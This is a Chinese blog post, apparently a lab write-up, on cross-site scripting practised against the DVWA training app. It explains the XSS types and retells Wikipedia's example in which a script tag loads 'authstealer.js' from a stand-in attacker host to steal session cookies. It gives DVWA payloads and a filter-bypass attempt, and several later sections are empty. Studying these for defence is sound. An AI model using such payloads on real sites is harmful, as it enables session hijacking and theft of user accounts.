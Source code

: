 ```yaml
---
layout:     post
title:      DVWA靶机练习之XSS
subtitle:   
date:       2019-12-08
author:     kevin
header-img: img/green-bg.jpg
catalog: true
tags:
    - security
    - web
    - XSS
---
```




## XSS是什么

XSS(cross-site-scripting) 即是跨站脚本攻击，是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。这类攻击通常包含了 HTML 以及用户端脚本语言。 



简洁点来说，XSS 就是利用了网站对用户输入没有过滤完全的漏洞，上传恶意代码到网站页面上，使得其他用户加载页面时执行攻击者的恶意代码，达到窃取用户敏感信息（如 cookie）的目的，根据种类不同，一般又分为 反射型 XSS 攻击，存储型 XSS 攻击，DOM 型 XSS 攻击



### Non-persistent (reflected)



反射型 XSS 攻击并不会将恶意脚本存储在服务端，需要用户在和后端交互时自己输入恶意的脚本，因此这种 XSS 攻击一般存在于钓鱼连接中，攻击者已经构造好一个包含恶意代码的链接，如果用户点击了这个链接，就会被窃取隐私信息，比如下面这个钓鱼链接就是个反射型 XSS 攻击脚本



```
http://bobssite.org/search?q=puppies<script>alert('document.cookie');</script>
```



### Persistent (or stored)



存储型 XSS 攻击是将恶意脚本植入服务器端，这样每一次用户访问一个正常的页面时，恶意的代码都会被自动渲染，如果不能及时发现的话会对网站造成很大的影响，假如在一个访问量很大的页面启用 XSS 攻击访问另外的一个网站，则会造成 Dos 攻击的效果，这种 XSS 一般存在于留言板之类的应用中



### DOM-based



DOM 型的 XSS 攻击不会将代码传到服务器端进行交互，所有的处理都由 JavaScript 完成，因此如果前端 JavaScript 没有对输入进行很好的过滤就会造成这种 XSS 攻击，一般 DOM 型的 XSS 攻击和反射型的 XSS 攻击最大的区别就是： DOM 型 XSS 是利用 JavaScript 的 document.write 和 document.innerHTML`



## Wikipedia demo



这里是维基百科上关于 XSS 攻击的两个 demo ，包含持续性和非持续性两种例子



### Non-persistent



1. 爱丽丝经常访问由鲍勃（Bob）托管的特定网站。 Bob的网站允许 Alice 使用用户名/密码对登录并存储敏感数据，例如账单信息。 当用户登录时，浏览器会保留一个“授权 Cookie”，它看起来像一些垃圾字符，因此两台计算机（客户端和服务器）都具有她已登录的记录。
2. Mallory 注意到 Bob 的网站包含一个反射型 XSS 漏洞：
   1. 当她访问“搜索”页面时，她在搜索框中输入搜索词，然后单击“提交”按钮。 如果未找到任何结果，则该页面将显示她搜索的字词，后跟“未找到”字样，其网址为 http://bobssite.org/search?q=her%20search%20term
   2. 使用正常的搜索查询（例如单词“ puppies”），页面仅显示“找不到小狗”，而网址为“ http://bobssite.org/search?q=puppies”-这是完全正常的行为
   3. 但是，当她提交异常的搜索查询时，例如“ <script type ='application / javascript'> alert（'xss'）; </ script>”，
      1. 出现一个警告框（显示 “ xss” ）
      2. 该页面显示“未找到”，以及带有文本 “ xss” 的错误消息。
      3. 网址是 “ http://bobssite.org/search?q= <script％20type ='application / javascript'> alert（'xss'）; </ script> - 这是可利用的行为
3. Mallory制作了一个利用此漏洞的URL：
   1. 她制作了 URL  http://bobssite.org/search?q=puppies<script%20src=“ http://mallorysevilsite.com/authstealer.js”> </ script>。 她可以选择使用百分比编码来对 ASCII 字符进行编码，例如 http://bobssite.org/search?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22 ％3E％3C％2Fscript％3E，因此人类读者无法立即破译恶意 URL
   2. 她向鲍勃网站的一些毫无戒心的成员发送了一封电子邮件，说：“看看一些可爱的小狗！”
4. 爱丽丝得到了电子邮件。 她喜欢小狗，然后单击链接。 它转到 Bob 的网站进行搜索，未找到任何内容，并显示“未找到小狗”，但在这之间，脚本标签运行（在屏幕上不可见）并加载并运行 Mallory 的程序 authstealer.js（触发 XSS 攻击）， 爱丽丝并不知道。
5. authstealer.js 程序在Alice的浏览器中运行，就像它起源于Bob的网站一样。 它获取 Alice 的 Authorization Cookie 的副本，并将其发送到 Mallory 的服务器，Mallory 在该服务器上检索它。
6. Mallory 现在将 Alice 的授权 Cookie 放在自己的浏览器中，就好像是她自己的一样。 然后，她去了 Bob 的站点，现在以 Alice 的身份登录。
7. 现在她进入了，Mallory 转到网站的 Billing 部分，查找 Alice 的信用卡号并获取一个副本。 然后她去更改密码，以使爱丽丝什至无法登录。
8. 她决定更进一步，并向 Bob 自己发送类似的链接，从而获得 Bob 的网站管理员权限。



**防治措施：**

1. 搜索框对用户输入进行过滤，其中包括正确的编码检查
2. 服务器对错误的请求进行重定向
3. 服务器检测到同时登录就使会话无效
4. 服务器检测到同时在两个 ip 登录就使会话无效
5. 网站只展示银行卡最后几位数字
6. 在更改信息前让用户输入密码确认
7. cookie 中设置 `HttpOnly` 字样防止通过 JavaScript 访问



### Persistent



1. Mallory 在 Bob 的网站上获得了一个帐户
2. Mallory 发现 Bob 的网站包含一个存储型 XSS 漏洞。 如果转到“新闻”部分并发表评论，它将显示他输入的任何内容。 但是，如果注释文本中包含 HTML 标记，则标记将按原样显示，并且所有脚本标记都将运行
3. Mallory 在“新闻”部分阅读文章，并在“评论”部分底部写评论。 她在评论中插入了这段文字：我喜欢这个故事中的幼犬！ 他们是如此可爱！<script src =“ http://mallorysevilsite.com/authstealer.js”>
4. 当爱丽丝（或其他人）用评论加载页面时，马洛里的脚本标签运行并窃取爱丽丝的授权 cookie，然后将其发送到 Mallory 的秘密服务器进行收集
5. Mallory 现在可以劫持 Alice 的会话并假冒 Alice



**防治措施：**

1. 对用户的 HTML 标签进行过滤
2. 利用 token 技术，防止 CSRF 攻击



## DVWA 案例



### 低级



#### XSS(DOM)



低级案例通过 GET 方法将下拉框选中的内容发送给本页面，如果有 `default=` 字样的话就进行接下去的操作，没有对输入进行任何过滤，因此在浏览器地址栏我们可以构造出以下 payload 



```
http://localhost/dvwa/vulnerabilities/xss_d/?default=Spanish<script>alert(document.cookie);</script>
```



#### XSS(Reflected)



输入什么就返回什么，那我们也可以构造出一个 payload 来弹出 cookies



```
kevin<script>alert(document.cookie);</script>
```



#### XSS(Stored)



这是个留言本应用，经常会有存储型 XSS 漏洞，当存在这种漏洞时，如果有人恶意攻击了这个页面，那么随后访问的用户都会被利用，如果在页面中植入下面这个 payload，则后面访问的用户访问时都会弹出 cookies



```
Name: hacker
Message: jsfuck<script>alert(document.cookie);</script>
```



可以看到，植入代码之后，脚本就存储在了页面中，这是持久性的，只要管理员没有发现，就会一直有人受害

![book.jpg](https://i.loli.net/2019/12/12/GXIDYjpVePnZlBE.jpg)

### 中级



#### XSS(DOM)



中级的案例对 `<script` 标签做了过滤，因此我们可以选择绕过，浏览器对大小写是不敏感的，因此我们可以将 script 大写，像下面这样



```
http://localhost/dvwa/vulnerabilities/xss_d/?default=Spanish<Script>alert(document.cookie);</Script>
```



然而事实证明，这种方法并没有卵用，不能绕过，看了源码，后端用了 `stripos` 函数过滤，这个函数是不区分大小写的，因此大写对他没用，直接把 `script` 给过滤了，因此我们考虑一下用另外一种标签，开始想到的是图片标签，构造一个不存在的图片



```
http://localhost/dvwa/vulnerabilities/xss_d/?default=Spanish<img src=233 onload=alert(document.cookie); hidden="true"/>
```



但是也没啥用，因为后面 JavaScript 将内容写进了 `option` 标签里面，而 `option` 里面是不能放图片的，所以此路不通，那就再换一个思路，











#### XSS(Reflected)



#### XSS(Stored)





### 高级



#### XSS(DOM)



#### XSS(Reflected)



#### XSS(Stored)



### 不可能



#### XSS(DOM)



#### XSS(Reflected)



#### XSS(Stored)



## summary



永远不要相信用户的输入，不要被局限，万物皆可 XSS